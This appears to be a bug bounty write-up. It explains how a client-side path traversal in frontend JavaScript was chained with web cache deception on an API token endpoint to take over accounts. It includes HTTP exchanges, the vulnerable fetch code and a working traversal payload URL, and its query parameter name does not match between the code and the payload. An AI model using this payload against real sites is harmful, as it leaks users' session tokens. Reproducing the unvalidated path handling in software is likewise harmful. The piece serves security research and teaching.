


Recently, while auditing the main application of a private bug bounty program, I discovered a **Client-Side Path Traversal (CSPT)** and a **Cache Deception** vulnerability. Individually, these issues were unexploitable and had no real impact. However, when chained together, I was able to demonstrate **Account Takeover**.

Before diving into the details, if you’re not familiar with these concepts, I highly recommend checking out:

**For CSPT:**
- [Matan Berson's excellent introduction to CSPT](https://matanber.com/blog/cspt-levels/){:target="_blank"} – a thorough explanation of the concept from the basics.
- [My CSPT talk in Spanish](https://www.youtube.com/watch?v=TAl1UIdZbK8){:target="_blank"} – if you speak Spanish, I cover the fundamentals and some practical scenarios here.
- [This great CSPT presentation by Maxence Schmitt](https://www.youtube.com/watch?v=O1ZN_OCfNzg&pp=ygUbIGNsaWVudCBzaWRlIHBhdGggdHJhdmVyc2Fs){:target="_blank"}

**For Cache Deception:**
- [https://portswigger.net/web-security/web-cache-deception](https://portswigger.net/web-security/web-cache-deception){:target="_blank"}


## **Cache Deception**

During my initial reconnaissance, I found the following request:

```http
GET /v1/token HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br


```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: no-cache, no-store, must-revalidate
X-Cache: Miss from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As the endpoint was returning sensitive data, I decided to test if it was vulnerable to **Cache Deception** by adding a `.css` extension:


```http
GET /v1/token.css HTTP/1.1
Host: api.example.com
X-Auth-Token: <REDACTED>
Accept: application/json
Accept-Encoding: gzip, deflate, br


```

```http
HTTP/1.1 200 OK
Content-Type: application/json
Cache-Control: max-age=86400, public
X-Cache: Hit from cdn
Connection: keep-alive

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."}
```


As you can see, the response was identical and was being cached. This showed that the endpoint was indeed vulnerable to Cache Deception.

However, it required the `X-Auth-Token` header, which browsers cannot send automatically when users visit a URL directly. This made the Cache Deception vulnerability unexploitable, as an attacker could not force a victim’s browser to include his authentication token when making the request.


## **Client-Side Path Traversal**

While reviewing the frontend code, I found the following JavaScript:


```javascript
const urlParams = new URLSearchParams(window.location.search);
const userId = urlParams.get('userId');

const apiUrl = `https://api.example.com/v1/users/info/${userId}`;

fetch(apiUrl, {
  method: 'GET',
  headers: {
    'X-Auth-Token': authToken
  }
})
.then(response => response.json())
.then(data => {
  displayUSERData(data);
})
.catch(err => console.error("Error loading user info:", err));
```

This shows a classic example of a **Client-Side Path Traversal** vulnerability. The `userId` parameter was being directly embedded into the API URL without any validation against path traversal.

<br>



<br>

Therefore, I could control the path of an **authenticated** request to the API. But what could I do with this control? I wasn't able to find any open redirect, nor could I manipulate the body of any API response. On its own, this CSPT was not exploitable.

## **The Chain**

At that point, I realized: what if I combined both findings?

The **CSPT** vulnerability allows me to control the path of an authenticated API request that includes the `X-Auth-Token` header, while the **Cache Deception** issue requires that header to be present in order to cache sensitive data.

In other words, **what if I used the CSPT to make an authenticated request directly to the cacheable endpoint?**

To test this, I crafted a **CSPT** payload that would traverse to the cacheable endpoint:

```
https://example.com/user?id=../../../v1/token.css
```

When a user visits this URL, the JavaScript constructs:
```
https://api.example.com/v1/users/info/../../../v1/token.css
```

Which resolves to:
```
https://api.example.com/v1/token.css
```

The key insight is that this request includes the user's **`X-Auth-Token`** header. So, when the CSPT triggers, it sends an authenticated request to the cacheable endpoint.

The API returns the sensitive token data, and the CDN caches the response.

Now, when anyone (including unauthenticated users) visits `https://api.example.com/v1/token.css`, the CDN serves the victim’s cached sensitive data, which includes their token, leading to account takeover.

<br>



<br>

## **Conclusion**

I hope the attack chain was informative and provided new insights into how minor vulnerabilities, when combined, can create significant security risks, showing why it’s crucial to think beyond individual security mechanisms and never ignore seemingly unexploitable findings. In many cases, the most dangerous attacks result from chaining multiple vulnerabilities that appear harmless in isolation.

If you have any questions about the attack methodology, technical details, or want to discuss similar findings, feel free to reach out.